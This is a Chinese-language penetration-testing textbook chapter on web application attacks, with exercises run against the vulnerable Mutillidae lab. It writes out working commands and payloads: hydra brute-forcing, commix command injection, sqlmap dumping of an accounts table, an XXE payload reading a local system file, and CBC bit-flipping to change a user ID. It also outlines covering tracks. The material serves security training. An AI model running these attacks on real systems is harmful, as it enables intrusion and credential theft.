


# 第七章：利用 Web 应用程序

在前几章中，我们回顾了攻击者的网络攻击链，这是一种用于破坏网络和设备、泄露数据或阻碍访问网络资源的具体方法。在*第五章*，*高级社会工程学与物理安全*中，我们研究了从物理攻击和社会工程学出发的不同攻击路线。在*第六章*，*无线和蓝牙攻击*中，我们看到无线网络是如何被破坏的。

随着技术的应用，我们可以看到市场上有多家虚拟银行。这些银行没有任何物理基础设施，它们仅由简单的 Web/移动应用程序构成。基于 Web 的服务无处不在，大多数组织允许远程访问这些服务，并且几乎始终保持可用。在本章中，我们将重点介绍通过网站、Web 应用程序和 Web 服务进行的最常见攻击路径之一。对于渗透测试人员和攻击者而言，这些 Web 应用程序暴露了网络上的后端服务、访问网站的用户的客户端活动以及用户与 Web 应用程序/服务数据之间的连接。

本章将重点从攻击者的角度来审视 Web 应用程序、Web 服务和客户端的利用。

到本章结束时，你将学习到以下内容：

+   Web 应用程序攻击方法论

+   黑客的思维导图

+   Web 应用程序/服务的漏洞扫描

+   特定应用程序的攻击

+   利用加密和 Web 服务中的漏洞

+   使用 Web 后门保持对被攻陷系统的访问

+   客户端 Web 应用程序攻击

+   跨站脚本框架和 BeEF 框架

# Web 应用程序攻击方法论

系统化和目标导向的渗透测试总是从正确的方法论开始。*图 7.1* 显示了一个典型的 Web 应用程序攻击：


图 7.1：Web 应用程序攻击方法论

方法论分为六个阶段：设定目标、蜘蛛抓取和枚举、漏洞扫描、利用漏洞、掩盖痕迹和保持访问权限。以下是详细解释：

1.  **设定目标**：在渗透测试中，设定正确的目标非常重要，因为攻击者将更多地关注特定的易受攻击系统，以便根据攻击链方法获得系统级的访问权限。

1.  **蜘蛛抓取和枚举**：此时，攻击者已识别出 Web 应用程序列表，并开始深入研究特定技术版本及其相关的漏洞。使用多种方法来抓取所有网页，识别技术，并寻找一切与下一阶段相关的信息。

1.  **漏洞扫描**：在此阶段，收集所有已知的漏洞，利用著名的漏洞数据库，其中包含公开的漏洞利用工具或已知的常见安全配置错误。

1.  **利用**：这一阶段允许渗透测试人员利用已知和未知的漏洞，包括应用程序的业务逻辑。例如，如果某个应用程序存在管理员界面暴露的漏洞，攻击者可以尝试通过执行各种攻击（如密码猜测或暴力破解攻击）或利用特定的管理员界面漏洞（例如，**Java 管理扩展**（**JMX**）控制台攻击，直接访问管理员界面，无需登录，部署 war 文件，运行远程 Web Shell，或通过暴露的 **应用程序编程接口**（**API**）端点直接执行命令）。

1.  **掩盖痕迹**：在这一阶段，攻击者会抹去所有黑客攻击的证据。例如，如果系统通过文件上传漏洞被攻破并执行了远程命令，攻击者会尝试清除应用服务器日志、Web 服务器日志、系统日志及其他日志。一旦掩盖痕迹，攻击者会确保没有留下任何能够揭示其利用来源的日志。

1.  **维持访问**：攻击者可能会植入后门，并进行权限提升，或利用该系统作为僵尸计算机，进行更多针对内部的专门攻击。这可能包括在网络共享驱动器上的文件传播勒索病毒，甚至（在大规模组织中）将受害系统添加到域中，以接管企业域。

# 黑客的思维导图

人类思维是无可替代的。在本节中，我们将更多关注从攻击者的角度看待一个 web 应用程序的表现。*图 7.2* 显示了 web 应用程序黑客攻击的思维导图：


图 7.2：Web 应用程序黑客攻击思维导图

思维导图被分为两类：攻击者可以攻击服务器端漏洞或客户端漏洞。这些漏洞通常因以下原因之一而发生：

+   使用过时或未修补的技术

+   最新技术的安全配置不足

+   设计缺陷或编码时未考虑安全性

+   人为因素：缺乏技术熟练的员工

在服务器端，攻击者通常会执行以下攻击列表：

+   Web 应用防火墙规避

+   注入攻击

+   远程代码执行

+   文件包含——远程和本地

+   目录路径遍历

+   利用会话管理

+   利用系统或应用程序实现中的业务逻辑

+   Web 服务配置错误或权限过度授权

+   通过共享基础设施引诱易受攻击的服务

+   识别任何相关信息，帮助他们进行更专门的攻击

客户端攻击针对的系统通常缺乏企业系统和端点上存在的安全控制（尤其是防火墙、入侵检测系统和端点安全保护）。如果这些攻击成功并且建立了持久通信，一旦客户端设备重新连接到目标网络，就可以利用该设备发起攻击。这些攻击侧重于利用客户端而非服务器端的漏洞，可能包括浏览器、应用程序（厚客户端/薄客户端）和网络，具体如下：

+   Internet Explorer 漏洞：截至 2021 年 12 月，Internet Explorer 已知有 1,177 个漏洞（请见 [`www.cvedetails.com/product/9900/Microsoft-Internet-Explorer.html?vendor_id=26`](https://www.cvedetails.com/product/9900/Microsoft-Internet-Explorer.html?vendor_id=26)）。

+   JavaScript 和 Java 漏洞。

+   DNS 绑定/重绑定漏洞：DNS 重绑定是一种针对嵌入网页代码的基于 DNS 的攻击。通常，嵌入网页代码（如 JavaScript、Java 和 Flash）发出的请求会绑定到它们来源的网站（遵循同源策略）。DNS 重绑定攻击可以提升基于 JavaScript 的恶意软件渗透私有网络并破坏浏览器同源策略的能力。

+   客户端脚本注入漏洞/跨站脚本攻击：反射型、持久型（存储型）和基于 DOM 的。

考虑到这些漏洞，攻击者配备了完整的利用工具包，并准备开始侦察。

# Web 应用程序侦察

Web 应用程序及其提供的服务特别复杂。通常，服务是通过多层架构交付给最终用户，其中包含可通过互联网访问的应用服务器和 web 服务器，同时与位于内部网络中的中间件服务、后端服务器和数据库进行通信。

需要在测试过程中考虑的几个额外因素增加了复杂性，其中包括以下内容：

+   网络架构，包括安全控制（防火墙、IDS/IPS 和蜜罐）以及负载均衡器等配置

+   托管 web 服务的系统平台架构（硬件、操作系统及附加应用程序）

+   应用程序、中间件和最终层数据库，它们可能使用不同的平台（Unix 或 Windows）、厂商、编程语言，以及开源、商业和专有软件的混合。

+   身份验证和授权过程，包括维持应用程序会话状态的过程。

+   管理应用程序使用方式的底层业务逻辑

+   客户端与 web 服务之间的交互和通信

鉴于 Web 服务的复杂性，渗透测试人员必须能够适应每个站点的特定架构和服务参数。同时，测试过程必须一致地应用，以确保没有遗漏任何内容。

为了实现这些目标，已经提出了几种方法论。最广泛接受的是**开放式 Web 应用安全项目**（**OWASP**；参见 [www.owasp.org](http://www.owasp.org)）及其列出的前 10 大漏洞。

作为最低标准，OWASP 为测试人员提供了指导。然而，仅关注前 10 大漏洞是目光短浅的，并且该方法论已经展示出一些漏洞，特别是在应用程序如何支持业务实践的逻辑中发现漏洞时。

使用网络杀伤链方法，一些特定于 Web 应用程序侦察的活动应包括以下内容：

+   确定目标 web 应用程序，特别是关于它的托管位置和方式。

+   枚举目标网站的站点目录结构和文件，包括确定是否使用了**内容管理系统**（**CMS**）。这可能包括下载网站进行离线分析，包括文档元数据分析，并使用该站点创建用于密码破解的自定义词汇表（使用 `crunch` 等工具）。它还确保识别所有支持文件。

+   确定认证和授权机制，并确定在与该网络服务进行事务时如何保持会话状态。这通常需要分析 cookies 及其使用方式，并利用代理工具。

+   枚举所有表单。由于这些是客户端输入数据并与 Web 应用程序服务交互的主要方式，它们是多个可利用漏洞的所在，例如 SQL/XML/JSON 注入攻击和跨站脚本攻击。

+   确定接受输入的其他区域，例如允许文件上传的页面，以及任何对上传类型的限制。

+   确定错误是如何处理的，以及用户接收到的实际错误信息。错误信息通常会提供有价值的内部信息，如使用的软件版本、内部文件名和进程。

第一步是进行之前描述的被动和主动侦察（参见 *第二章*，*开源情报与被动侦察*，以及 *第三章*，*外部和内部网络的主动侦察*）。

特别是，确保识别托管站点，然后使用 DNS 映射来识别由同一服务器提供的所有托管站点。最常见且成功的攻击手段之一是攻击与目标网站托管在同一物理服务器上的非目标站点，利用服务器中的漏洞获取 root 权限，然后使用提升的权限攻击目标站点。

这种方法在共享云环境中非常有效，在这种环境中，许多应用程序都托管在同一个 **软件即服务** (**SaaS**) 模型下。

## Web 应用防火墙和负载均衡器的检测

下一步是识别网络保护设备的存在，如防火墙和 IDS/IPS，并识别任何欺骗性技术（蜜罐）。一种越来越常见的保护设备是 **Web 应用防火墙** (**WAF**) 和 DNS **内容分发网络** (**CDN**)。

如果使用了 WAF，测试人员需要确保攻击，特别是依赖于精心构造输入的攻击，已经被编码，以绕过 WAF。

WAF 可以通过手动检查 cookies 来识别（一些 WAF 会标记或修改 Web 服务器和客户端之间传递的 cookies），或通过对头信息的更改来识别（当测试人员使用命令行工具如 Telnet 连接到 `80` 端口时，可以发现这些变化）。

WAF 检测过程可以通过 `nmap` 脚本 `http-waf-detect.nse` 自动化，如 *图 7.3* 所示：


图 7.3：nmap 脚本在端口 80 上检测 WAF

`nmap` 脚本能够识别 WAF 的存在；然而，脚本的测试表明，它并不总是准确的，返回的数据可能过于笼统，无法为绕过防火墙提供有效的策略指导。

`wafw00f` 脚本是一个自动化工具，用于识别和指纹识别基于 Web 的防火墙；测试结果表明，它是最准确的工具。该脚本可以从 Kali 中轻松调用，且输出结果如 *图 7.4* 所示：


图 7.4：wafw00f 工具识别目标网站上的 Cloudflare WAF

**负载均衡检测器** (**lbd**) 是一个 Bash shell 脚本，用于确定给定域名是否使用 DNS 和/或 HTTP 负载均衡。从测试人员的角度来看，这是一个重要信息，因为它可以解释当测试一个服务器时出现的异常结果，然后负载均衡器将请求切换到另一个服务器。`lbd` 使用多种检查方法来识别负载均衡的存在。示例输出如 *图 7.5* 所示：


图 7.5：使用 DNS HTTP 差异进行负载均衡器检测

## Web 应用和 CMS 的指纹识别

Web 应用指纹识别是渗透测试人员的第一项任务，目的是找出运行中的 Web 服务器的版本和类型，以及所实现的 Web 技术。这些信息可以帮助攻击者确定已知的漏洞及其适用的利用方式。

攻击者可以使用任何能够连接到远程主机的命令行工具。例如，我们在 *图 7.6* 中使用了 `netcat` 命令连接到受害主机的 `80` 端口，并发出了 `HTTP HEAD` 命令，以识别服务器上运行的内容：


图 7.6：通过 netcat 和 HTTP 请求头进行横幅抓取

这将返回一个 HTTP 服务器响应，其中包含应用程序运行所在的 Web 服务器类型，以及`server`部分提供有关应用构建技术的详细信息——在本例中为`PHP 7.1.30`。

现在，攻击者可以使用诸如 CVE Details 之类的资源来确定已知漏洞（见 [`www.cvedetails.com/vulnerability-list/vendor_id-74/product_id-128/PHP-PHP.html`](https://www.cvedetails.com/vulnerability-list/vendor_id-74/product_id-128/PHP-PHP.html)）。

渗透测试的最终目标是获取敏感信息。应检查网站，以确定用于构建和维护该网站的**CMS**。例如 Drupal、Joomla 和 WordPress 等 CMS 应用程序，可能配置有脆弱的管理界面，允许访问提升的权限，或者可能包含可被利用的漏洞。

Kali 包含一个自动化扫描工具`wpscan`，可以识别 WordPress CMS 的指纹，以确定版本信息，如下所示：

```
sudo wpscan –-url <website.com> 
```

样本输出如*图 7.7*所示：


图 7.7：通过 wpscan 识别 WordPress 并进行扫描

一种特定的扫描工具——自动化网页爬虫——可用于验证已收集的信息，并确定特定网站的现有目录和文件结构。网页爬虫的典型发现包括管理门户、可能包含硬编码访问凭证和内部结构信息的配置文件（当前版本和历史版本）、网站备份副本、管理员备注、机密个人信息以及源代码。

Kali 支持多个网页爬虫，包括 Burp Suite Community Edition、DirBuster、ZAP、dirb、wfuzz 和 CutyCapt。最常用的工具是 DirBuster。

DirBuster 是一个基于 GUI 的应用程序，使用可能的目录和文件列表来对网站结构进行暴力破解分析。响应结果可以以列表或树形格式显示，后者更准确地反映了网站结构。对目标网站执行此应用程序的输出如*图 7.8*所示。

以下是在 GUI 中打开 DirBuster 并启动扫描的步骤：

1.  通过在终端中运行`sudo dirbuster`，或从**应用程序** > **03 网络应用分析** > **网页爬虫与目录暴力破解** > **dirbuster**来打开该应用程序。

1.  在**目标 URL**中输入我们的网站地址。

1.  通过点击**浏览**来选择字典文件；该字典可以自定义，也可以使用存储在`/usr/share/dirbuster/wordlists/`中的常用字典。

1.  输入文件扩展名并点击**开始**：

    图 7.8：运行 OWASP DirBuster 来枚举目标网站应用中的有效文件

## 从命令行镜像网站

攻击者可能需要花费大量时间识别特定页面/URL 位置的漏洞。常见策略包括克隆或下载所有可用的站点信息到本地，以缩小正确的入口点进行利用，并执行社交工程攻击以收集电子邮件地址和其他相关信息。

也可以直接将网站复制到测试人员的位置。这使得测试人员可以查看目录结构及其内容，从本地文件中提取元数据，并将站点内容作为程序（如 `crunch`）的输入，从而生成个性化的密码破解字典。

一旦你绘制出网站和/或交付的网络服务的基本结构，接下来的步骤是识别可以被利用的漏洞。

在 Kali Linux 2021.4 中，工具没有预先安装；但是，可以通过在终端中运行 `sudo apt install httrack` 来安装，然后输入 `httrack` 查看渗透测试人员下载网站内容到本地系统的选项。`Httrack` 是一个命令行和 GUI 工具，广泛用于制作任何网站的本地副本。攻击者可以直接发出 `httrack http://targetwebapp/ -O outputfolder` 命令，如*图 7.9*所示：


图 7.9：运行网站复制工具 httrack

一旦 `httrack` 完成，测试人员就应该能够在本地加载应用程序并收集信息，识别 HTML 注释或备份文件中的硬编码凭据，或识别设计/实现缺陷。

# 客户端代理

客户端代理拦截 HTTP 和 HTTPS 流量，允许渗透测试人员检查用户与应用程序之间的通信。它允许测试人员复制数据或与发送到应用程序的请求进行交互，从而使他们能够操控或绕过客户端限制。

客户端代理最初是为调试应用程序而设计的；攻击者可以滥用相同的功能来执行中间人攻击或浏览器中间人攻击。

Kali 自带了多个客户端代理工具，包括 Burp Suite 和 ZAP。经过广泛测试，我们已依赖 Burp Proxy，并将 ZAP 作为备用工具。在本节中，我们将探讨 Burp Suite。

## Burp Proxy

在本节中，我们将使用 Mutillidae，这个我们在构建虚拟实验室时安装的 Web 应用程序，安装过程见*第一章*，*基于目标的渗透测试*。Burp 主要用于拦截 HTTP(S) 流量；最新版本是 Burp Suite Community Edition 2021.9.1（Kali Linux 2021.4 默认安装的版本是 2021.8.2）。然而，它是一个包含多个附加功能的大型工具套件，功能包括以下几点：

+   一款应用感知工具（具有关于应用程序的内置信息），能够对目标网站进行深度爬取

+   一个漏洞扫描器，包括一个序列生成器，用于测试会话令牌的随机性，以及一个重复器，用于操控并重新发送客户端与网站之间的请求（漏洞扫描器不包括在 Kali 附带的 Burp Proxy 的免费版本中）

+   一个入侵者工具，可用于发起自定义攻击（Kali 附带的免费版工具有速度限制；如果购买软件的商业版，这些限制将被移除）

+   可以编辑现有插件或编写新插件，以扩展可用的攻击类型和数量

+   一个解码器，用于解码已知的密文，一个比较器，用于进行字词或字节级的比较，以及一个扩展器，用于添加任何第三方插件或自定义代码

要使用 Burp，确保你的网页浏览器配置为使用本地代理；通常，你需要调整网络设置，指定 HTTP 和 HTTPS 流量必须使用本地地址 (`127.0.0.1`)，端口为 `8080`。

在设置好浏览器后，通过终端运行`burpsuite`打开代理工具，并手动在**目标**选项卡中映射应用程序。这通过关闭代理拦截来完成，然后浏览整个应用程序。点击每个链接，提交表单，并尽可能多地登录到网站的各个区域。

额外的内容将通过各种响应推断出来。下一步是选择目标网站并右键点击**添加到作用域**，如以下*图 7.10*所示。


图 7.10：将特定目标 Web 应用添加到作用域

站点地图将在**目标**选项卡下填充区域。也可以通过导航到主菜单中的**仪表板**，选择**新建实时任务**，选择**实时被动爬取**，然后点击**扫描配置**，再点击**新建…**，输入**配置名称**为`crawl`或`deep crawl`，然后在**要添加的项目类型**中选择**链接**，在**要添加的 URL**中选择**所有**，如以下*图 7.11*所示。然而，手动技术让测试人员有机会更熟悉目标，且可能识别出需要避免的区域，如`/.bak`文件或`.svn`文件，这些是渗透测试人员在评估过程中常常忽略的：



图 7.11：扫描配置以爬取目标

完成此操作后，你可以使用显示过滤器隐藏站点地图中不感兴趣的项目。目标网站的站点地图显示在*图 7.12*中：


图 7.12：Burp Suite 中目标 Web 应用的站点地图

爬取完成后，手动检查目录和文件列表，查看是否有任何结构似乎不属于公开网站，或者似乎无意间泄露了。例如，名为`admin`、`backup`、`documentation`或`notes`的目录应当手动检查。

我们将在运行于`http://yourIP/mutillidae/`的易受攻击的 Web 应用程序中对登录页面进行一些手动测试，方法是将单引号提交到用户名和密码表单中。这一输入将生成一个错误代码，暗示该页面可能受到 SQL 注入攻击的威胁；错误代码的一个示例返回如*图 7.13*所示：


图 7.13：Mutillidae 中的数据库错误

代理的真正强大之处在于它能够拦截并修改命令。对于这个特定的示例，我们将进行一次通过 SQL 注入绕过认证的攻击。

要发起此攻击，请确保 Burp Proxy 配置为拦截通信，方法是进入**Proxy**标签页并选择**Intercept**子标签。确保选择**Intercept is on**，如*图 7.14*所示。完成此操作后，打开浏览器窗口并访问 Mutillidae 登录页面，地址为`<IP address>/mutillidae/index.php?page=login.php`。在**Name**和**Password**字段中输入变量，然后点击**Login**按钮。

如果返回到 Burp Proxy，你将看到用户在网页表单中输入的信息被拦截了：


图 7.14：在 Burp Proxy 中拦截发送到服务器的请求

点击**Action**按钮，选择**Send to Intruder**选项。打开主**Intruder**标签页，你将看到四个子标签，分别是**Target**、**Positions**、**Payloads**和**Options**，如*图 7.15*所示：


图 7.15：将请求加载到 Burp Intruder 模块

如果选择**Positions**，你将看到从拦截的信息中识别出了五个有效载荷位置。

该攻击将使用 Burp Proxy 的**Sniper**模式，该模式从测试人员提供的列表中获取一个输入，并将此输入一次性发送到一个有效载荷位置。测试人员需要清除所有预定义的有效载荷位置，并仅选择需要的那些位置，然后继续进行攻击。对于此示例，我们将针对`username`字段进行攻击，因为根据返回的错误消息，我们怀疑该字段存在漏洞。

要定义有效载荷位置，我们选择**Payloads**子标签。在本例中，我们选择了一个简单的列表。这个列表可以手动输入，也可以通过从其他来源复制来填充，如*图 7.16*所示：


图 7.16：将有效载荷添加到入侵者模块

要发起攻击，请从顶部菜单中选择**Intruder**，然后选择**Start Attack**。代理将通过将单词列表与选定的有效载荷位置进行匹配，以合法的 HTTP 请求形式进行迭代，并返回服务器的状态码。

如*图 7.17*所示，大多数选项返回的状态码为`200`（请求成功）；然而，部分数据返回状态码为`302`（请求已找到，表示请求的资源当前位于不同的 URI 下）：


图 7.17：在登录表单上成功进行 SQL 注入，获取应用程序访问权限

`302` 状态表示攻击成功，获得的数据可以成功用于登录目标网站。

不幸的是，这对 Burp Proxy 及其功能的概述过于简短。Kali 中包含的免费版本足以应对许多测试任务；然而，严肃的测试人员（和攻击者）应考虑购买商业版本，该版本提供自动化扫描器、报告功能以及插件以自动化任务。

## 网络爬虫和目录暴力破解攻击

网络爬虫是使用机器人或自动化脚本从网站获取特定信息的过程。Kali 提供了内建应用来执行此活动。网络爬虫的好处是，它能让你无需手动逐个执行攻击即可抓取数据。

攻击者还可以利用 OWASP DirBuster、dirb、wfuzz 和 CutyCapt 执行相同的操作。

## 针对 web 服务的特定漏洞扫描器

漏洞扫描器是自动化工具，用于爬行应用程序，识别已知漏洞的特征。

Kali 自带多种不同的预安装漏洞扫描器。渗透测试人员通常会针对同一目标使用两到三个综合扫描器，以确保获得有效的结果，从而实现测试目标。请注意，一些漏洞扫描器还包含攻击功能。

漏洞扫描器通常噪声较大，且通常会被受害者检测到。然而，扫描经常作为常规后台活动被忽略。事实上，一些攻击者已知会对目标发起大规模扫描，以掩盖真正的攻击，或诱使防御者禁用检测系统，以减少他们必须处理的报告数量。

重要的漏洞扫描器包括以下内容：

| **应用程序** | **描述** |
| --- | --- |
| Nikto | 一个基于 Perl 的开源扫描器，允许 IDS 规避和用户对扫描模块的更改。这个原始的 web 扫描器开始显得有些老旧，准确性不如一些现代的扫描器。 |
| Skipfish | 一个完成递归爬行和基于字典的爬行的扫描器，用于生成目标网站的互动网站地图，并附有额外漏洞扫描的输出注释。 |
| Wapiti | 一个基于 Python 的开源漏洞扫描器。 |
| WebSploit | 一个高级的**中间人攻击**（**MiTM**）框架，适用于无线和蓝牙攻击。 |
| ZAP | ZAP 是一个开源的 web 应用安全扫描器，涵盖了 OWASP 前十大漏洞，能够执行自动化和手动技术来测试业务登录漏洞，并具有代理功能。 |

表格 7.1：流行的漏洞扫描器

Kali 还包括一些应用程序特定的漏洞扫描工具。例如，WPScan 专门用于针对 **WordPress CMS** 应用程序。

# 应用程序特定的攻击

针对应用程序的攻击比针对特定操作系统的攻击更多。当考虑到可能影响每个在线应用程序的配置错误、漏洞和逻辑错误时，任何应用程序能被认为是安全的都令人惊讶。

我们将重点介绍一些针对 Web 服务的重要攻击。

## 暴力破解访问凭据

针对网站或其服务的最常见初始攻击之一是对访问认证的暴力破解攻击，猜测用户名和密码。这种攻击的成功率很高，因为用户倾向于选择容易记住的凭据或重复使用凭据，而且系统管理员通常不控制多次访问尝试。

Kali 自带 `hydra`，一个命令行工具，以及带有图形用户界面的 `hydra-gtk`。这两个工具都允许测试人员对指定服务进行暴力破解或迭代可能的用户名和密码。支持多种通信协议，包括 FTP、FTPS、HTTP、HTTPS、ICQ、IRC、LDAP、MySQL、Oracle、POP3、pcAnywhere、SNMP、SSH、VNC 等。

以下截图显示了 `hydra` 使用暴力破解攻击来确定 HTTP 页面上的访问凭据：

```
hydra -l admin -P <Yourpasswordlist> 10.10.10.100 http-post-form "/mutillidae/index.php page=login.php:username=^USER^&password=^PASS^&login-php-submit-button=Login:Not Logged In"Injection 
```

在接下来的部分中，我们将探讨攻击者通常利用的常见注入攻击。

### 使用 commix 进行操作系统命令注入

**命令注入工具** (**commix**) 是一个用 Python 编写的自动化工具，已在 Kali Linux 中预编译，用于在应用程序易受命令注入攻击时执行各种操作系统命令。

它允许攻击者注入到应用程序的任何特定易受攻击部分，甚至是 HTTP 头部中。

commix 还作为附加插件出现在各种渗透测试框架中，如 TrustedSec 的 **PenTesters Framework** (**PTF**) 和 OWASP 的 **Offensive Web Testing Framework** (**OWTF**)。

攻击者可以通过在终端输入 `commix -h` 来使用 commix 提供的所有功能。

要模拟攻击，在目标易受攻击的 Web 服务器的终端执行以下命令：

```
commix --url=http://YourIP/mutillidae/index.php popupnotificationcode=5L5&page=dns-lookup.php --data="target_host=INJECT_HERE" -headers="Accept-Language:fr\n ETAG:123\n" 
```

当 commix 工具针对易受攻击的 URL 运行时，渗透测试人员应该能够看到命令执行在目标服务器上的进度，并且能够看到哪个参数是易受攻击的。在前面的场景中，`target_host` 是使用经典注入技术可以注入的变量，如 *图 7.18* 所示：


图 7.18：使用 commix 进行命令注入

一旦注入成功，攻击者可以在服务器上运行命令，例如，使用 `dir` 列出所有文件和文件夹，如 *图 7.19* 所示：


图 7.19：使用 commix 在远程系统上进行远程命令执行

测试人员在共享基础设施上运行 Commix 时必须小心，因为这可能会对托管服务器的内存造成显著负载。

### sqlmap

网站中最常见和最易利用的漏洞是注入漏洞，发生在受害网站没有监控用户输入时，从而允许攻击者与后台系统进行交互。攻击者可以构造输入数据来修改或窃取数据库中的内容，将可执行文件上传到服务器，或向操作系统发出命令。

用于评估 SQL 注入漏洞的最有用且强大的工具之一是 `sqlmap`，它是一个 Python 工具，能够自动化对 Firebird、Microsoft SQL、MySQL（现称为 MariaDB，MySQL 的社区开发和商业支持分支）、Oracle、PostgreSQL、Sybase 和 SAP MaxDB 数据库的侦察与利用。

我们将演示对 Mutillidae 数据库进行 SQL 注入攻击。第一步是确定 web 服务器、后台数据库管理系统以及可用的数据库。

访问 Mutillidae 网站并查看网页，找出接受用户输入的页面（例如，接受远程用户输入用户名和密码的用户登录表单）；这些页面可能存在 SQL 注入漏洞。

然后，打开 Kali，在终端中输入以下命令（使用合适的目标 IP 地址）：

```
root@kali:~# sqlmap -u 'http://targetip/mutillidae/index.php?page=user-  info.php&username=admin&password=&user-info-php-submit-  button=View+Account+Details' --dbs 
```

`sqlmap` 将返回数据，如*图 7.20*所示：


图 7.20：sqlmap 在易受攻击的链接上执行的输出

最有可能存储应用程序数据的数据库是 Mutillidae 数据库；因此，我们将使用以下命令检查该数据库的所有表：

```
root@kali:~# sqlmap -u "http://yourip/mutillidae/index.php?page=user-info.php&username=&password=&user-info-php-submit-button=View+Account+Details" -D mutillidae --tables 
```

执行该命令返回的数据如*图 7.21*所示：


图 7.21：使用 sqlmap 列出 Mutillidae 数据库中的所有表

在所有列出的表中，有一个表名为 `accounts`。我们将尝试从该表部分转储数据。如果成功，账户凭证将允许我们在进一步的 SQL 注入攻击失败时重新访问数据库。

要转储凭证，请使用以下命令：

```
root@kali:~# sqlmap -u "http://yourip/mutillidae/index.php?page=user-info.php&username=&password=&user-info-php-submit-button=View+Account+Details" -D mutillidae -T accounts --dump 
```


图 7.22：在选定数据库中转储表的所有内容

上述示例集中在 HTTP `GET` 参数上。然而，攻击者也可以使用任何代理工具利用 HTTP `POST` 参数，并捕获客户端的完整 `POST` 请求，将其复制到文件中，然后运行 `sudo sqlmap –r 文件名`，如*图 7.23*所示：


图 7.23：使用 HTTP POST 方法运行 sqlmap

类似的攻击可以针对数据库进行，用以提取信用卡号或其他机密信息，以实现渗透测试或红队演练的目标。

攻击者还可以选择通过使用`sqlmap`的`–os-shell`在终端切换到`sqlmap`命令来执行命令。

### XML 注入

现在，许多应用程序使用**可扩展标记语言**（**XML**），它定义了一组规则，用于编码文档，使得人类和机器都能理解。XML 注入是一种通过将意外的消息注入到 XML 结构或内容中，利用 XML 应用程序或服务逻辑的攻击方式。

本节将探讨如何执行 XML 注入，并通过利用开发人员留下的典型配置错误成功获得底层操作系统的访问权限。

按照以下步骤识别是否可以进行 XML 注入：

1.  访问`http:/Your IP/mutillidae/index.php?page=xml-validator.php`，如*图 7.24*所示：

    图 7.24：Mutillidae 上的 XML 验证

1.  通过在表单中输入以下内容，检查我们是否得到了有效的响应：

    ```
    <!DOCTYPE foo [ <!ENTITY Variable  "hello" > ]><somexml><message>&Variable;</message></somexml> 
    ```

    之前的代码应显示`Hello`作为响应，如*图 7.25*所示：

    

    图 7.25：服务器响应 XML 提交的成功响应

1.  如果服务器在没有错误消息的情况下响应，它可能容易受到 XML 注入攻击。

1.  现在，我们可以通过将`SYSTEM`添加到变量中并调用本地文件来创建有效负载：

    ```
    <!DOCTYPE foo [ <!ENTITY testref  SYSTEM  "file:///c:/windows/win.ini" > ]>
    <somexml><message>&testref;</message></somexml> 
    ```

    如果成功，你应该能够看到被调用文件的内容，如下所示：

    

    图 7.26：XML 注入成功显示服务器响应中的 win.ini 文件内容

攻击者可能通过直接访问整个系统并在目标网络内横向移动，运行 PowerShell 漏洞。

### 比特翻转攻击

大多数攻击者并不太关注加密类型的攻击，因为这既费时又需要大量计算能力来破解密文以提取有意义的信息。但在某些情况下，实施的加密逻辑可以很容易理解。

本节将探索比特翻转攻击，这种攻击使用**密码块链**（**CBC**）来加密给定的明文。

在 CBC 中，在加密一个块之前，明文会与前一个块的加密输出进行 XOR 操作，通过创建一个逻辑链的块，如*图 7.27*所示：


图 7.27：使用 CBC 进行初始化向量加密

简而言之，XOR 比较两个值，如果它们不同则返回`true`。

这里的潜在攻击场景是什么？如果任何人都可以将明文块与前一个块的加密消息进行 XOR 操作，第一块的 XOR 输入会是什么？你所需要的只是一个初始化向量。通过导航至**OWASP 2017** > **A1 - 注入（其他）** > **CBC 比特翻转**来访问 Mutillidae：

```
http://yourip/mutillidae/index.php?page=view-user-privilege-level.php&iv=6bc24fc1ab650b25b4114e93a98f1eba 
```

测试人员应能够访问以下页面，如*图 7.28*所示：


图 7.28：默认值访问 CBC 位翻转页面

如我们所见，当前的应用用户正在使用用户 ID `100` 和组 ID `100` 运行。要成为具有高级权限的 root 用户，你需要是组 ID 和用户 ID 都为 `000` 的用户。

我们需要操作的唯一内容是 IV 值 `6bc24fc1ab650b25b4114e93a98f1eba`。由于它是十六进制且长度为 32 个字符，因此长度为 128 位。我们开始评估初始化向量，将值分割成两个字符作为一个块，并通过逐一访问它们来更改 URL 中的值：

+   `http://yourIP/mutillidae/index.php?page=view-user-privilege-level.php&iv=``00``c24fc1ab650b25b4114e93a98f1eba`：用户或组 ID 无变化

+   `http://YourIP/mutillidae/index.php?page=view-user-privilege-level.php&iv=6b``00``4fc1ab650b25b4114e93a98f1eba`：用户或组 ID 无变化

当我们到达第五块 `6bc24fc100650b25b4114e93a98f1eba` 时，我们会看到用户 ID 发生变化，如*图 7.29*所示：


图 7.29：加密数据的操作及用户 ID 的变化

